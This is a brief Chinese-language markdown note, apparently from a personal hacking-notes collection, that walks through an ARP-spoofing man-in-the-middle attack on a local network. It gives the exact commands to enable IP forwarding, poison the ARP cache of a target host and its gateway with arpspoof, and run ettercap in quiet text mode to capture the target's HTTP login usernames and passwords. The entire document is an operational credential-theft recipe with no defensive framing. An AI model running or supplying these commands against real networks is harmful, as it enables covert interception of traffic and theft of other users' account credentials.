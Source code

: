 # 005.arpspoof+ettercap获取http账号密码
---

攻击者网卡:eth0  
攻击者ip: 192.168.1.2  
目标ip: 192.168.1.3  
网关ip: 192.168.1.1

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启一个新的终端

```bash
ettercap -Tq -i eth0
```

> 此时如果192.168.1.3在登录http网站，账号密码就会被<kbd>ettercap</kbd>获取到

注：  
> <kbd>ettercap</kbd>
* -T   启动文本模式
* -q安静模式


